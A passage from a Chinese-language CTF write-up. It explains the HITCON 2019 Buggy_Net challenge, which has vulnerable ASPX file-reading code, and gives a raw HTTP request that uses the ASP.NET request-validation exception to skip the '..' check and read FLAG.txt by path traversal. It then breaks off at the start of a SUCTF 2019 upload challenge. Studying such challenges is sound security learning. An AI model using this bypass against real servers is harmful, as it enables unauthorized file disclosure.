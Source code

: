 直接抄SCTF2022的rceme。无字母 无参数rce

## 0x04 [Windows][HITCON 2019]Buggy_Net

```aspx
<% 

    bool isBad = false;
    try {
        if ( Request.Form["filename"] != null ) {
            isBad = Request.Form["filename"].Contains("..") == true;
        }
    } catch (Exception ex) {
        
    } 

    try {
        if (!isBad) {
            Response.Write(System.IO.File.ReadAllText(@"C:\inetpub\wwwroot\" + Request.Form["filename"]));
        }
    } catch (Exception ex) {

    }
%>
```

这个题目的意思是在第一个`try`里面把那个引发异常跳过对于`isbad`的赋值，然后这样我们就可以在第二个异常捕获中任意读取。https://www.slideshare.net/SoroushDalili/waf-bypass-techniques-using-http-standard-and-web-servers-behaviour

aspx自作主张地在程序中加入了对于xss的捕获，这样我们传入xss字符就引发异常跳过第一个捕获，并且还可以通过编码异常来绕过。

```
GET / HTTP/1.1
Host: node3.buuoj.cn:29225
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://node3.buuoj.cn:29225
Connection: close
Cookie: _ga=GA1.2.1327658694.1580490668
Upgrade-Insecure-Requests: 1

filename=../../FLAG.txt&qwqeqwe=<!

```

大家还可以研究一下的是，在这里有一个字段特别重要，就先不说了，大家自己zhao。(Content-Type: application/x-www-form-urlencoded)

## 0x05 [SUCTF 2019]Upload Labs 2

这个题目原来是给了源码的，但是我在buu进行复现的时候发现，没有给源码，我先进行了黑盒的测试，发现了一处我以为是`ssrf`，但其实不是的地方，后来我以为后台的实现是`file_get_contents`，有trick可以发post请求，但其实admin.php的问题，打出非预期解的情况。下面说一下。
